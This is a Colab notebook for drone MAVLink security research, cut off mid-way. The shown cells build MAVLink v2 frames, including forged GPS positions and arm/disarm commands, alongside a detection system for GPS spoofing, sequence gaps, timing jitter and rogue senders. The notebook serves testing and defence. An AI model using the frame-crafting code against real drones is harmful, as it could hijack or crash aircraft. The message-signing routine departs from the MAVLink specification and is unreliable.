<a href="https://colab.research.google.com/github/lynnfdsouza/drone_terrain_masking/blob/main/Copy_of_Drone_Red_Team_Industry_Std_final_(3).ipynb" target="_parent"><img src="https://colab.research.google.com/assets/colab-badge.svg" alt="Open In Colab"/></a>

# Drone Cybersecurity Red Team Framework
### Industry-Standard Implementation for Authorised Security Research

---

## Architecture

```
┌─────────────────────────────────────────────────────────┐
│                   RED TEAM FRAMEWORK                    │
├─────────────────┬───────────────────┬───────────────────┤
│  MAVLink v2     │  Attack Engine    │  SITL Connector   │
│  (real CRC,     │  (protocol-level  │  (ArduPilot/PX4   │
│   signing,      │   packet craft)   │   live firmware)  │
│   seq tracking) │                   │                   │
├─────────────────┴───────────────────┴───────────────────┤
│                   BLUE TEAM / IDS                       │
├─────────────────┬───────────────────┬───────────────────┤
│  Kalman Filter  │  Sequence Gap     │  Timing Jitter    │
│  (GPS anomaly)  │  Analyser         │  Analyser         │
├─────────────────┴───────────────────┴───────────────────┤
│                   REPORTING                             │
└─────────────────────────────────────────────────────────┘
```

## Key upgrades vs original notebook

| Component | Original | This version |
|-----------|----------|--------------|
| MAVLink framing | Custom fake | Real MAVLink v2 — CRC-16/MCRF4XX, 3-byte msg_id, incompat flags |
| CRC | Simple sum | Proper CRC-16/MCRF4XX with per-message CRC extras |
| Message signing | None | MAVLink v2 signing (SHA-256 link ID + timestamp) |
| Attack execution | `random.random() < rate` | Protocol-level packet construction (COMMAND_LONG, GPS inject) |
| GPS spoofing detection | Probability table | Kalman filter on lat/lon/alt streams |
| Sequence tracking | None | Per-system-id sequence gap detection |
| Timing analysis | None | Inter-packet jitter with statistical baseline |
| SITL integration | None | ArduPilot/PX4 SITL connector (TCP/UDP auto-detect) |
| Scapy inspection | None | Packet-level MAVLink dissector |

## Setup in Colab

```bash
!pip install pymavlink scapy
# For SITL (optional — runs ArduPilot firmware):
# !apt-get install -y build-essential
# !pip install MAVProxy
```


In [ ]:
# ── Install dependencies ────────────────────────────────────────────────────
import subprocess, sys

def install(pkg):
    subprocess.check_call([sys.executable, '-m', 'pip', 'install', '-q', pkg])

try:
    import pymavlink
    print("pymavlink already installed")
except ImportError:
    print("Installing pymavlink...")
    install('pymavlink')

try:
    import scapy
    print("scapy already installed")
except ImportError:
    print("Installing scapy...")
    install('scapy')

# ── Standard library ────────────────────────────────────────────────────────
import struct, socket, threading, time, random, json, logging, math, hashlib, hmac
from dataclasses import dataclass, field, asdict
from typing import List, Dict, Optional, Tuple, Deque
from datetime import datetime
from collections import deque
from enum import IntEnum

# ── pymavlink (used for SITL and message definitions) ───────────────────────
try:
    from pymavlink import mavutil, mavlink
    PYMAVLINK_AVAILABLE = True
    print("pymavlink OK")
except ImportError:
    PYMAVLINK_AVAILABLE = False
    print("pymavlink not available — SITL connector disabled, using pure-stdlib MAVLink v2")

# ── scapy (used for packet inspection) ──────────────────────────────────────
try:
    from scapy.all import raw, Packet, ByteField, ShortField, StrFixedLenField, UDP
    from scapy.layers.inet import IP
    SCAPY_AVAILABLE = True
    print("scapy OK")
except ImportError:
    SCAPY_AVAILABLE = False
    print("scapy not available — packet inspector disabled")

logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s [%(levelname)s] %(name)s: %(message)s'
)
logger = logging.getLogger('drone_redteam')
print("\nImports complete.")


Installing pymavlink...
Installing scapy...
pymavlink not available — SITL connector disabled, using pure-stdlib MAVLink v2
scapy OK

Imports complete.


In [ ]:
# ════════════════════════════════════════════════════════
#  MAVLink v2 Engine
#  Reference: https://mavlink.io/en/guide/serialization.html
# ════════════════════════════════════════════════════════

MAVLINK2_MAGIC   = 0xFD
MAVLINK2_IFLAG_SIGNED = 0x01
MAVLINK2_HEADER_LEN   = 10  # STX LEN IFF IFC SEQ SYS CMP MSGID(3)
MAVLINK2_SIGN_LEN     = 13  # link_id(1) + timestamp48(6) + signature(6)

# Per-message CRC extras (from MAVLink XML definitions)
# https://mavlink.io/en/guide/serialization.html#crc_extra
MSG_CRC_EXTRA = {
    0:   50,   # HEARTBEAT
    1:   124,  # SYS_STATUS
    24:  24,   # GPS_RAW_INT
    30:  39,   # ATTITUDE
    32:  185,  # LOCAL_POSITION_NED
    33:  104,  # GLOBAL_POSITION_INT
    74:  20,   # VFR_HUD
    76:  152,  # COMMAND_LONG
    77:  143,  # COMMAND_ACK
    83:  85,   # ATTITUDE_TARGET
    141: 218,  # ALTITUDE
    22:  220,  # PARAM_VALUE
    23:  119,  # PARAM_SET
    110: 84,   # FILE_TRANSFER_PROTOCOL
    253: 83,   # STATUSTEXT
}

# MAVLink command IDs
class MAVCmd(IntEnum):
    COMPONENT_ARM_DISARM   = 400
    SET_MODE               = 176
    DO_SET_HOME            = 179
    DO_REPOSITION          = 192
    RETURN_TO_LAUNCH       = 20
    LAND                   = 21
    TAKEOFF                = 22
    OVERRIDE_GOTO          = 252
    REQUEST_AUTOPILOT_CAPS = 520   # MAV_CMD_REQUEST_AUTOPILOT_CAPABILITIES
    PREFLIGHT_REBOOT       = 246   # MAV_CMD_PREFLIGHT_REBOOT_SHUTDOWN

# MAVLink autopilot / type / mode constants
class MAVAutopilot(IntEnum):
    ARDUPILOT = 3
    PX4       = 12

class MAVType(IntEnum):
    QUADROTOR  = 2
    FIXED_WING = 1

class MAVMode(IntEnum):
    STABILIZE  = 0
    GUIDED     = 4
    AUTO       = 3
    LOITER     = 5
    RTL        = 6
    LAND       = 9


# ── CRC-16/MCRF4XX ──────────────────────────────────────────────────────────

def crc16_mcrf4xx(data: bytes, crc: int = 0xFFFF) -> int:
    """
    CRC-16/MCRF4XX as specified by MAVLink.
    Ref: https://mavlink.io/en/guide/serialization.html#checksum
    """
    for b in data:
        tmp   = b ^ (crc & 0xFF)
        tmp  ^= (tmp << 4) & 0xFF
        crc   = ((crc >> 8) ^ (tmp << 8) ^ (tmp << 3) ^ (tmp >> 4)) & 0xFFFF
    return crc


# ── MAVLink v2 frame ─────────────────────────────────────────────────────────

@dataclass
class MAVLinkV2Frame:
    """
    Full MAVLink v2 frame.
    Header: STX(1) LEN(1) INCOMPAT(1) COMPAT(1) SEQ(1) SYSID(1) COMPID(1) MSGID(3)
    Body:   PAYLOAD(n) CHECKSUM(2) [SIGNATURE(13)]
    """
    msg_id:   int
    payload:  bytes
    seq:      int  = 0
    sys_id:   int  = 1
    comp_id:  int  = 1
    incompat: int  = 0   # set 0x01 if signing
    compat:   int  = 0

    def _header(self) -> bytes:
        msgid_b = struct.pack('<I', self.msg_id)[:3]
        return bytes([
            MAVLINK2_MAGIC,
            len(self.payload),
            self.incompat,
            self.compat,
            self.seq & 0xFF,
            self.sys_id & 0xFF,
            self.comp_id & 0xFF,
        ]) + msgid_b

    def to_bytes(self) -> bytes:
        """Serialise to wire bytes including CRC."""
        header    = self._header()
        crc_data  = header[1:] + self.payload          # everything after STX
        crc_extra = MSG_CRC_EXTRA.get(self.msg_id, 0)
        crc       = crc16_mcrf4xx(crc_data)
        crc       = crc16_mcrf4xx(bytes([crc_extra]), crc)
        return header + self.payload + struct.pack('<H', crc)

    def to_bytes_signed(self, secret_key: bytes, link_id: int = 0) -> bytes:
        """
        MAVLink v2 signing (INCOMPAT flag = 0x01).
        Signature = first 6 bytes of SHA-256(secret + link_id + timestamp + frame[:-2])
        Ref: https://mavlink.io/en/guide/message_signing.html
        """
        self.incompat = MAVLINK2_IFLAG_SIGNED
        frame_no_sig = self.to_bytes()
        # 48-bit timestamp in 10us units since epoch
        ts48 = int(time.time() * 1e5) & 0xFFFFFFFFFFFF
        ts_bytes = struct.pack('<Q', ts48)[:6]
        sign_blob = secret_key + bytes([link_id]) + ts_bytes + frame_no_sig[:-2]
        sig6 = hashlib.sha256(sign_blob).digest()[:6]
        return frame_no_sig + bytes([link_id]) + ts_bytes + sig6

    @staticmethod
    def from_bytes(data: bytes) -> Optional['MAVLinkV2Frame']:
        """Parse and CRC-validate a MAVLink v2 frame."""
        if len(data) < MAVLINK2_HEADER_LEN + 2:
            return None
        if data[0] != MAVLINK2_MAGIC:
            return None
        length  = data[1]
        incompat = data[2]; compat = data[3]
        seq     = data[4]; sys_id = data[5]; comp_id = data[6]
        msg_id  = struct.unpack('<I', data[7:10] + b'\x00')[0]
        payload = data[MAVLINK2_HEADER_LEN:MAVLINK2_HEADER_LEN + length]
        crc_end = MAVLINK2_HEADER_LEN + length + 2
        if len(data) < crc_end:
            return None
        crc_rx  = struct.unpack('<H', data[crc_end-2:crc_end])[0]
        crc_data  = data[1:MAVLINK2_HEADER_LEN] + payload
        crc_extra = MSG_CRC_EXTRA.get(msg_id, 0)
        crc_calc  = crc16_mcrf4xx(crc_data)
        crc_calc  = crc16_mcrf4xx(bytes([crc_extra]), crc_calc)
        if crc_rx != crc_calc:
            logger.debug(f"CRC mismatch msg_id={msg_id}: rx=0x{crc_rx:04X} calc=0x{crc_calc:04X}")
            return None
        return MAVLinkV2Frame(
            msg_id=msg_id, payload=payload,
            seq=seq, sys_id=sys_id, comp_id=comp_id,
            incompat=incompat, compat=compat
        )


# ── Message builders ─────────────────────────────────────────────────────────

class MAVMsg:
    """Factory methods for common MAVLink v2 messages."""

    @staticmethod
    def heartbeat(sys_id=1, comp_id=1, seq=0,
                  mav_type=MAVType.QUADROTOR,
                  autopilot=MAVAutopilot.ARDUPILOT,
                  base_mode=81, system_status=4) -> MAVLinkV2Frame:
        payload = struct.pack('<IBBBBB',
            0,            # custom_mode
            int(mav_type),
            int(autopilot),
            base_mode,
            system_status,
            3             # mavlink_version
        )
        return MAVLinkV2Frame(0, payload, seq=seq, sys_id=sys_id, comp_id=comp_id)

    @staticmethod
    def global_position_int(lat_deg: float, lon_deg: float, alt_m: float,
                             vx=0.0, vy=0.0, vz=0.0, hdg=0.0,
                             sys_id=1, comp_id=1, seq=0) -> MAVLinkV2Frame:
        """GLOBAL_POSITION_INT (msg_id=33). All SI units converted to MAVLink units."""
        payload = struct.pack('<IiiiihhhH',
            int(time.time() * 1000) & 0xFFFFFFFF,  # time_boot_ms
            int(lat_deg * 1e7),          # lat (degE7)
            int(lon_deg * 1e7),          # lon (degE7)
            int(alt_m   * 1000),         # alt (mm MSL)
            int(alt_m   * 1000),         # relative_alt (mm)
            int(vx * 100),               # vx (cm/s)
            int(vy * 100),               # vy (cm/s)
            int(vz * 100),               # vz (cm/s)
            int(hdg * 100) & 0xFFFF      # hdg (cdeg)
        )
        return MAVLinkV2Frame(33, payload, seq=seq, sys_id=sys_id, comp_id=comp_id)

    @staticmethod
    def command_long(command: MAVCmd,
                     p1=0.0, p2=0.0, p3=0.0, p4=0.0,
                     p5=0.0, p6=0.0, p7=0.0,
                     target_sys=1, target_comp=1,
                     confirmation=0,
                     sys_id=255, comp_id=0, seq=0) -> MAVLinkV2Frame:
        """COMMAND_LONG (msg_id=76)."""
        payload = struct.pack('<fffffff BBH B',
            p1, p2, p3, p4, p5, p6, p7,
            target_sys, target_comp,
            int(command),
            confirmation
        )
        return MAVLinkV2Frame(76, payload, seq=seq, sys_id=sys_id, comp_id=comp_id)

    @staticmethod
    def command_ack(command: int, result: int,
                    sys_id=1, comp_id=1, seq=0) -> MAVLinkV2Frame:
        """COMMAND_ACK (msg_id=77)."""
        payload = struct.pack('<HB', command, result)
        return MAVLinkV2Frame(77, payload, seq=seq, sys_id=sys_id, comp_id=comp_id)

    @staticmethod
    def statustext(text: str, severity: int = 6,
                   sys_id=1, comp_id=1, seq=0) -> MAVLinkV2Frame:
        """STATUSTEXT (msg_id=253). text is truncated/padded to 50 chars."""
        encoded = text.encode('ascii', errors='replace')[:50].ljust(50, b'\x00')
        payload = struct.pack('<B50s', severity, encoded)
        return MAVLinkV2Frame(253, payload, seq=seq, sys_id=sys_id, comp_id=comp_id)


# ── Self-test ────────────────────────────────────────────────────────────────

def _self_test_mavlink():
    errors = []
    for msg_id, builder, expected_len in [
        (0,  MAVMsg.heartbeat(),                              9),
        (33, MAVMsg.global_position_int(37.77, -122.41, 100), 28),
        (76, MAVMsg.command_long(MAVCmd.COMPONENT_ARM_DISARM, p1=1.0), 33),
        (77, MAVMsg.command_ack(400, 0),                      3),
        (253,MAVMsg.statustext("test"),                       51),
    ]:
        assert len(builder.payload) == expected_len, \
            f"msg_id={msg_id} payload len {len(builder.payload)} != {expected_len}"
        wire  = builder.to_bytes()
        parsed = MAVLinkV2Frame.from_bytes(wire)
        if parsed is None:
            errors.append(f"msg_id={msg_id} parse/CRC failed")
        elif parsed.msg_id != msg_id:
            errors.append(f"msg_id mismatch: {parsed.msg_id} != {msg_id}")
        else:
            print(f"  msg_id={msg_id:3d}  wire={len(wire):3d}B  CRC=OK")

    # Signing test
    key   = b'supersecretkey32'
    frame = MAVMsg.heartbeat()
    signed = frame.to_bytes_signed(key, link_id=1)
    print(f"  Signed frame: {len(signed)}B (unsigned={len(frame.to_bytes())}B, sig_overhead=13B)")
    assert len(signed) == len(frame.to_bytes()) + 13

    if errors:
        for e in errors: print(f"  ERROR: {e}")
        raise AssertionError("MAVLink v2 self-test FAILED")
    print("MAVLink v2 engine: all tests passed.")

_self_test_mavlink()


  msg_id=  0  wire= 21B  CRC=OK
  msg_id= 33  wire= 40B  CRC=OK
  msg_id= 76  wire= 45B  CRC=OK
  msg_id= 77  wire= 15B  CRC=OK
  msg_id=253  wire= 63B  CRC=OK
  Signed frame: 34B (unsigned=21B, sig_overhead=13B)
MAVLink v2 engine: all tests passed.


In [ ]:
# ════════════════════════════════════════════════════════
#  Blue Team — Intrusion Detection System
#  Four independent detection engines:
#    1. Kalman filter on GPS streams (spoofing)
#    2. Sequence gap analyser (replay / injection)
#    3. Inter-packet timing jitter (flood / replay)
#    4. System-ID fingerprint baseline (rogue sender)
# ════════════════════════════════════════════════════════

from dataclasses import dataclass, field
from collections import deque
import math, time


@dataclass
class Alert:
    engine:    str
    severity:  str          # LOW | MEDIUM | HIGH | CRITICAL
    timestamp: str
    detail:    str
    raw:       dict = field(default_factory=dict)

    def __str__(self):
        return f"[{self.severity}] {self.engine}: {self.detail}"


# ── 1. Kalman Filter (1-D) ────────────────────────────────────────────────────

class KalmanFilter1D:
    """
    Single-state Kalman filter for scalar telemetry streams.
    Returns (estimate, residual). A large residual = anomaly.
    """
    def __init__(self, process_var: float = 1e-5, measure_var: float = 0.01):
        self.x   = 0.0
        self.P   = 1.0
        self.Q   = process_var
        self.R   = measure_var
        self._init = False

    def update(self, z: float) -> Tuple[float, float]:
        if not self._init:
            self.x = z; self._init = True
            return z, 0.0
        self.P += self.Q
        K        = self.P / (self.P + self.R)
        residual = z - self.x
        self.x  += K * residual
        self.P  *= (1 - K)
        return self.x, abs(residual)

    def reset(self):
        self.x = 0.0; self.P = 1.0; self._init = False


# ── 2. Sequence Gap Analyser ──────────────────────────────────────────────────

class SequenceAnalyser:
    """
    Tracks MAVLink sequence numbers per (sys_id, comp_id) pair.
    Gaps indicate dropped packets, replay attacks, or injected frames.
    """
    def __init__(self, gap_threshold: int = 2):
        self._last: Dict[Tuple[int,int], int] = {}
        self.gap_threshold = gap_threshold
        self.total_gaps    = 0

    def update(self, sys_id: int, comp_id: int, seq: int
               ) -> Tuple[bool, int]:
        key = (sys_id, comp_id)
        if key not in self._last:
            self._last[key] = seq
            return False, 0
        expected = (self._last[key] + 1) & 0xFF
        gap      = (seq - expected) & 0xFF
        self._last[key] = seq
        if gap > self.gap_threshold:
            self.total_gaps += 1
            return True, gap
        return False, gap


# ── 3. Timing Jitter Analyser ────────────────────────────────────────────────

class TimingAnalyser:
    """
    Monitors inter-packet intervals per message type.
    Sudden burst (jitter_ratio > threshold) = replay or flood.
    """
    def __init__(self, window: int = 30, jitter_threshold: float = 0.4):
        self._ts:    Dict[int, deque] = {}
        self._ivl:   Dict[int, deque] = {}
        self.window    = window
        self.threshold = jitter_threshold

    def update(self, msg_id: int, ts: float) -> Tuple[bool, float]:
        if msg_id not in self._ts:
            self._ts[msg_id]  = deque(maxlen=self.window)
            self._ivl[msg_id] = deque(maxlen=self.window - 1)
        q = self._ts[msg_id]
        if q:
            self._ivl[msg_id].append(ts - q[-1])
        q.append(ts)
        ivl = self._ivl[msg_id]
        if len(ivl) < 5:
            return False, 0.0
        mean = sum(ivl) / len(ivl)
        if mean == 0:
            return False, 0.0
        std  = math.sqrt(sum((x - mean)**2 for x in ivl) / len(ivl))
        jr   = std / mean
        return jr > self.threshold, jr


# ── 4. GPS Anomaly Engine (Kalman on lat / lon / alt) ────────────────────────

class GPSAnomalyEngine:
    """
    Three independent Kalman filters on lat, lon, alt.
    Computes Mahalanobis-like combined distance from predicted position.
    Threshold tuned to ~50m positional jump at normal GPS noise.
    """
    # 50m ≈ 0.00045 deg lat/lon, 50m alt
    THRESHOLDS = dict(lat=0.0005, lon=0.0005, alt=50.0)

    def __init__(self):
        self.kf_lat = KalmanFilter1D(process_var=1e-8, measure_var=1e-6)
        self.kf_lon = KalmanFilter1D(process_var=1e-8, measure_var=1e-6)
        self.kf_alt = KalmanFilter1D(process_var=0.01,  measure_var=1.0)
        self.baseline_samples = 0
        self.WARMUP = 20  # warmup before alerting

    def update(self, lat: float, lon: float, alt: float
               ) -> Tuple[bool, Dict[str, float]]:
        _, r_lat = self.kf_lat.update(lat)
        _, r_lon = self.kf_lon.update(lon)
        _, r_alt = self.kf_alt.update(alt)
        self.baseline_samples += 1
        residuals = dict(lat=r_lat, lon=r_lon, alt=r_alt)
        if self.baseline_samples < self.WARMUP:
            return False, residuals
        triggered = any(
            residuals[k] > self.THRESHOLDS[k]
            for k in ('lat', 'lon', 'alt')
        )
        return triggered, residuals


# ── 5. System-ID Fingerprint Baseline ────────────────────────────────────────

class SysIDFingerprint:
    """
    Learns which (sys_id, comp_id) pairs are expected on the link.
    New senders are flagged as potential rogue injectors.
    """
    def __init__(self, learning_window: int = 50,
                 known_gcs: Optional[List[Tuple[int,int]]] = None):
        # Pre-seed with known GCS IDs so they are never flagged as rogue
        self.known:   set = set(known_gcs or [(255, 0), (255, 190)])
        self.counts:  Dict[Tuple[int,int], int] = {}
        self.learned  = False
        self.window   = learning_window
        self.total    = 0

    def update(self, sys_id: int, comp_id: int) -> Tuple[bool, str]:
        key = (sys_id, comp_id)
        self.counts[key] = self.counts.get(key, 0) + 1
        self.total += 1
        if not self.learned and self.total >= self.window:
            self.known   = self.known | set(self.counts.keys())  # merge, preserve pre-seeded
            self.learned = True
            logger.info(f"SysID fingerprint learned: {self.known}")
        if self.learned and key not in self.known:
            return True, f"Unknown sender sys_id={sys_id} comp_id={comp_id}"
        return False, ""


# ── Composite IDS ─────────────────────────────────────────────────────────────

class DroneIDS:
    """
    Composite Intrusion Detection System.
    Feed every parsed MAVLink frame through .inspect() to get alerts.
    """
    def __init__(self, gps_threshold_m: float = 50.0,
                 seq_gap_threshold:  int   = 2,
                 jitter_threshold:   float = 0.4):
        self.gps      = GPSAnomalyEngine()
        self.seq      = SequenceAnalyser(gap_threshold=seq_gap_threshold)
        self.timing   = TimingAnalyser(jitter_threshold=jitter_threshold)
        self.sysid    = SysIDFingerprint()
        self.alerts:  List[Alert] = []
        self._lock    = threading.Lock()

    def inspect(self, frame: MAVLinkV2Frame, recv_ts: Optional[float] = None
                ) -> List[Alert]:
        """
        Inspect a parsed MAVLink v2 frame.
        Returns list of new alerts (may be empty).
        """
        ts     = recv_ts or time.time()
        new_alerts: List[Alert] = []

        # ── Sequence gap ──
        gap_det, gap = self.seq.update(frame.sys_id, frame.comp_id, frame.seq)
        if gap_det:
            a = Alert(
                engine="SequenceGap", severity="MEDIUM",
                timestamp=datetime.now().isoformat(),
                detail=f"Gap of {gap} in seq from sys={frame.sys_id} comp={frame.comp_id}",
                raw=dict(sys_id=frame.sys_id, comp_id=frame.comp_id, gap=gap)
            )
            new_alerts.append(a)

        # ── Timing jitter ──
        jitter_det, jr = self.timing.update(frame.msg_id, ts)
        if jitter_det:
            a = Alert(
                engine="TimingJitter", severity="MEDIUM",
                timestamp=datetime.now().isoformat(),
                detail=f"Jitter ratio {jr:.3f} on msg_id={frame.msg_id}",
                raw=dict(msg_id=frame.msg_id, jitter_ratio=jr)
            )
            new_alerts.append(a)

        # ── Rogue sender ──
        rogue_det, rogue_msg = self.sysid.update(frame.sys_id, frame.comp_id)
        if rogue_det:
            a = Alert(
                engine="RogueSender", severity="HIGH",
                timestamp=datetime.now().isoformat(),
                detail=rogue_msg,
                raw=dict(sys_id=frame.sys_id, comp_id=frame.comp_id)
            )
            new_alerts.append(a)

        # ── GPS spoofing (only for GLOBAL_POSITION_INT) ──
        if frame.msg_id == 33 and len(frame.payload) >= 28:
            try:
                _, lat_e7, lon_e7, alt_mm, *_ = struct.unpack('<IiiiihhhH', frame.payload)
                lat = lat_e7 / 1e7; lon = lon_e7 / 1e7; alt = alt_mm / 1000.0
                spoof_det, residuals = self.gps.update(lat, lon, alt)
                if spoof_det:
                    a = Alert(
                        engine="GPSSpoofing", severity="CRITICAL",
                        timestamp=datetime.now().isoformat(),
                        detail=(f"GPS jump detected — "
                                f"Δlat={residuals['lat']:.6f}° "
                                f"Δlon={residuals['lon']:.6f}° "
                                f"Δalt={residuals['alt']:.1f}m"),
                        raw=dict(lat=lat, lon=lon, alt=alt, residuals=residuals)
                    )
                    new_alerts.append(a)
            except struct.error:
                pass

        with self._lock:
            self.alerts.extend(new_alerts)

        for a in new_alerts:
            logger.warning(str(a))
        return new_alerts

    def summary(self) -> Dict:
        with self._lock:
            by_engine   = {}
            by_severity = {}
            for a in self.alerts:
                by_engine[a.engine]     = by_engine.get(a.engine, 0) + 1
                by_severity[a.severity] = by_severity.get(a.severity, 0) + 1
        return dict(
            total_alerts=len(self.alerts),
            by_engine=by_engine,
            by_severity=by_severity,
            recent=[ str(a) for a in self.alerts[-5:] ]
        )


# ── Self-test ─────────────────────────────────────────────────────────────────

def _test_ids():
    ids = DroneIDS()

    # 1. Build normal GPS baseline
    lat, lon, alt = 37.7749, -122.4194, 100.0
    for i in range(25):
        frame = MAVMsg.global_position_int(
            lat + i * 0.0000025, lon + i * 0.0000025, alt,  # realistic 4Hz drift
            sys_id=1, seq=i
        )
        alerts = ids.inspect(frame, recv_ts=i * 1.0)
    print(f"  Baseline phase: {len(ids.alerts)} alerts (expected 0)")

    # 2. GPS spoof — jump to NYC
    spoof_frame = MAVMsg.global_position_int(40.7128, -74.0060, 50.0, sys_id=1, seq=15)
    alerts = ids.inspect(spoof_frame, recv_ts=15.1)
    gps_alerts = [a for a in alerts if a.engine == "GPSSpoofing"]
    print(f"  GPS spoof: {len(gps_alerts)} GPS alert(s) — {'DETECTED' if gps_alerts else 'MISSED'}")
    assert gps_alerts, "GPS spoofing not detected"

    # 3. Sequence gap
    frame_gap = MAVMsg.heartbeat(sys_id=1, seq=25)  # gap of 9
    alerts2 = ids.inspect(frame_gap, recv_ts=16.0)
    seq_alerts = [a for a in alerts2 if a.engine == "SequenceGap"]
    print(f"  Seq gap:   {len(seq_alerts)} alert(s) — {'DETECTED' if seq_alerts else 'MISSED'}")
    assert seq_alerts, "Sequence gap not detected"

    # 4. Rogue sender (after fingerprint learned — need more frames first)
    ids2 = DroneIDS()
    for i in range(55):
        ids2.inspect(MAVMsg.heartbeat(sys_id=1, seq=i), recv_ts=float(i))
    rogue = MAVMsg.heartbeat(sys_id=99, comp_id=99, seq=0)
    alerts3 = ids2.inspect(rogue, recv_ts=56.0)
    rogue_alerts = [a for a in alerts3 if a.engine == "RogueSender"]
    print(f"  Rogue sys: {len(rogue_alerts)} alert(s) — {'DETECTED' if rogue_alerts else 'MISSED'}")
    assert rogue_alerts, "Rogue sender not detected"

    print("DroneIDS: all detection engines passed.")

_test_ids()


  Baseline phase: 0 alerts (expected 0)
  GPS spoof: 1 GPS alert(s) — DETECTED
  Seq gap:   1 alert(s) — DETECTED
  Rogue sys: 1 alert(s) — DETECTED
DroneIDS: all detection engines passed.


In [ ]:
# ════════════════════════════════════════════════════════
#  Scapy MAVLink v2 Dissector
#  Parses raw bytes / UDP payloads into structured fields.
#  Falls back to pure-stdlib if scapy unavailable.
# ════════════════════════════════════════════════════════

if SCAPY_AVAILABLE:
    from scapy.packet import Packet, bind_layers
    from scapy.fields import (ByteField, ShortField, LEShortField,
                               StrFixedLenField, XByteField, LEIntField,
                               LEShortEnumField, X3BytesField)
    from scapy.layers.inet import UDP

    class MAVLinkV2(Packet):
        """Scapy dissector for MAVLink v2 frames."""
        name = "MAVLink v2"
        fields_desc = [
            XByteField("stx",      0xFD),
            ByteField("len",       0),
            XByteField("incompat", 0),
            XByteField("compat",   0),
            ByteField("seq",       0),
            ByteField("sys_id",    0),
            ByteField("comp_id",   0),
            X3BytesField("msg_id", 0),
            StrFixedLenField("payload", b"", length_from=lambda p: p.len),
            LEShortField("checksum", 0),
        ]

        def do_dissect_payload(self, s):
            pass   # payload is variable-length, handled above

        def summary(self):
            return (f"MAVLink v2  sys={self.sys_id} comp={self.comp_id} "
                    f"seq={self.seq} msg_id={self.msg_id} "
                    f"len={self.len}B  crc=0x{self.checksum:04X}")

    # Bind to UDP port 14550 (default MAVLink GCS port)
    bind_layers(UDP, MAVLinkV2, dport=14550)
    bind_layers(UDP, MAVLinkV2, sport=14550)

    def dissect_mavlink_bytes(raw_bytes: bytes) -> Optional[MAVLinkV2]:
        """Parse raw bytes into a Scapy MAVLinkV2 packet."""
        try:
            pkt = MAVLinkV2(raw_bytes)
            return pkt
        except Exception as e:
            logger.debug(f"Scapy dissect failed: {e}")
            return None

    def inspect_wire(raw_bytes: bytes, ids: Optional['DroneIDS'] = None) -> Dict:
        """
        Full pipeline: raw bytes → Scapy dissect → MAVLinkV2Frame parse
        → IDS inspection → structured result.
        """
        result = {'raw_len': len(raw_bytes), 'scapy': None, 'frame': None, 'alerts': []}
        pkt = dissect_mavlink_bytes(raw_bytes)
        if pkt:
            result['scapy'] = pkt.summary()
        frame = MAVLinkV2Frame.from_bytes(raw_bytes)
        if frame:
            result['frame'] = dict(
                msg_id=frame.msg_id, seq=frame.seq,
                sys_id=frame.sys_id, comp_id=frame.comp_id,
                payload_len=len(frame.payload)
            )
            if ids:
                alerts = ids.inspect(frame)
                result['alerts'] = [str(a) for a in alerts]
        return result

    print("Scapy MAVLink dissector: OK")

else:
    # ── Fallback: pure stdlib inspector ──────────────────────────────
    def inspect_wire(raw_bytes: bytes, ids=None) -> Dict:
        result = {'raw_len': len(raw_bytes), 'scapy': None, 'frame': None, 'alerts': []}
        frame = MAVLinkV2Frame.from_bytes(raw_bytes)
        if frame:
            result['frame'] = dict(
                msg_id=frame.msg_id, seq=frame.seq,
                sys_id=frame.sys_id, comp_id=frame.comp_id,
                payload_len=len(frame.payload)
            )
            if ids:
                alerts = ids.inspect(frame)
                result['alerts'] = [str(a) for a in alerts]
        return result

    print("Scapy not available — using stdlib fallback inspector.")

# ── Quick test ────────────────────────────────────────────────────────────────
_ids_test = DroneIDS()
_wire = MAVMsg.global_position_int(37.7749, -122.4194, 100.0, sys_id=1, seq=0).to_bytes()
_result = inspect_wire(_wire, ids=_ids_test)
print(f"Wire inspect test: frame={_result['frame']}  alerts={_result['alerts']}")
print("Packet inspector: OK")


Scapy MAVLink dissector: OK
Wire inspect test: frame={'msg_id': 33, 'seq': 0, 'sys_id': 1, 'comp_id': 1, 'payload_len': 28}  alerts=[]
Packet inspector: OK


In [ ]:
# ════════════════════════════════════════════════════════
#  SITL Connector
#
#  Connects to ArduPilot or PX4 SITL running locally
#  (or on a remote host). Auto-detects UDP vs TCP.
#
#  ArduPilot SITL defaults: UDP 127.0.0.1:14550
#  PX4 SITL defaults:       UDP 127.0.0.1:14540
#
#  To start ArduPilot SITL in Colab:
#    !sim_vehicle.py -v ArduCopter --out=udp:127.0.0.1:14550
#
#  pymavlink is used when available (richer message set).
#  Falls back to raw socket + our MAVLink v2 engine.
# ════════════════════════════════════════════════════════

class SITLConnector:
    """
    Connects to an ArduPilot / PX4 SITL instance.
    Provides:
      - send(frame)         — send a MAVLinkV2Frame
      - recv(timeout)       — receive and parse one frame
      - request_stream()    — ask SITL to stream telemetry
      - arm() / disarm()
      - set_mode(mode_id)
    """

    def __init__(self, host: str = '127.0.0.1',
                 port: int = 14550,
                 protocol: str = 'udp',
                 gcs_sys_id: int = 255,
                 gcs_comp_id: int = 0,
                 use_pymavlink: bool = True):
        self.host        = host
        self.port        = port
        self.protocol    = protocol.lower()
        self.gcs_sys_id  = gcs_sys_id
        self.gcs_comp_id = gcs_comp_id
        self._seq        = 0
        self._sock: Optional[socket.socket] = None
        self._mav  = None   # pymavlink connection if available
        self._connected = False
        self._lock = threading.Lock()

        if use_pymavlink and PYMAVLINK_AVAILABLE:
            self._backend = 'pymavlink'
        else:
            self._backend = 'raw'

    def connect(self, timeout: float = 5.0) -> bool:
        """
        Attempt connection to SITL.
        Returns True if a heartbeat is received within timeout.
        """
        logger.info(f"Connecting to SITL {self.protocol}://{self.host}:{self.port} "
                    f"(backend={self._backend})")

        if self._backend == 'pymavlink':
            return self._connect_pymavlink(timeout)
        return self._connect_raw(timeout)

    def _connect_pymavlink(self, timeout: float) -> bool:
        try:
            conn_str = f"{self.protocol}:{self.host}:{self.port}"
            self._mav = mavutil.mavlink_connection(
                conn_str,
                source_system=self.gcs_sys_id,
                source_component=self.gcs_comp_id,
                dialect='ardupilotmega'
            )
            hb = self._mav.wait_heartbeat(timeout=timeout)
            if hb:
                self._connected = True
                logger.info(f"SITL connected (pymavlink) — "
                            f"sys={self._mav.target_system} "
                            f"comp={self._mav.target_component}")
            return self._connected
        except Exception as e:
            logger.warning(f"pymavlink connect failed: {e}")
            return False

    def _connect_raw(self, timeout: float) -> bool:
        try:
            if self.protocol == 'udp':
                self._sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
